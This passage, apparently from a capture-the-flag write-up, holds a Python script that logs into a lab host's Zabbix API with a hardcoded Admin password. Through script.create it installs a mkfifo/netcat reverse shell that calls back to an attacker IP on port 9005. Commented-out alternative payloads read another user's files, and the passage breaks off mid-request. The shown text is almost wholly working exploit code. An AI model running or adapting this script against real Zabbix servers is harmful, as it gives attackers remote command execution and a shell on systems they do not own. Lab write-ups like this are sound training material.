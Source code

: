 #### Python Reverse Shell

Using these credentials in the Python script:

```python
import urllib.request
import json
import random

IP = '10.10.X.X'
PORT = 9005
HOST_ID = 10106
PAYLOAD = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc " + IP + " " + str(PORT) + " >/tmp/f &"
# PAYLOAD = "su zapper -p zapper && cat /home/zapper/user.txt"
# PAYLOAD = "hostname && ls -la /home/zapper && ls -la /backups"

class Zabbix():
    URL = 'http://10.10.10.108/zabbix/api_jsonrpc.php'
    login_json = {
        "jsonrpc": "2.0",
        "method": "user.login",
        "params": {
            "user": "Admin",
            "password": "f.YMeMd$pTbpY3-449"
        },
        "id": 1
    }

    def __init__(self):
        self.host_id = HOST_ID
        self.auth = self.make_request(self.login_json)['result']

        self.hosts = {
            "jsonrpc": "2.0",
                "method": "host.get",
                "params": {
                    "output": [
                        "hostid",
                        "host"
                    ],
                    "selectinterfaces": [
                        "interfaceid",
                        "ip"
                    ]
                },
                "auth": self.auth,
                "id": 1
        }
        res_hosts = self.make_request(self.hosts)
        print(res_hosts)

        self.payload = {
            "jsonrpc": "2.0",
            "method": "script.create",
            "params": {
                "name": "RevShell-" + str(random.randint(0,100)),
                "command": PAYLOAD,
                "host_access": 10000,
                "execute_on": 0,
                "confirmation": "Are you sure you would like to exploit the server?"
            },
            "auth": self.auth,
            "id": 1
```